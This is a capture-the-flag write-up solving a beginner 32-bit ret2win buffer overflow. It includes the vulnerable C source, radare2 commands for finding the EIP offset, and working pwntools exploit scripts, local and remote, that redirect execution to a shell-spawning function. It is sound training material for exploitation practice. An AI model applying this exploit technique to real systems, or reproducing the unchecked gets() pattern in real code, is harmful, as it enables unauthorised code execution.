 ```yaml
---
description: Binary Exploitation
---
```


# Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's ](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win)guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

<div align="center" data-full-width="false">

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

</div>
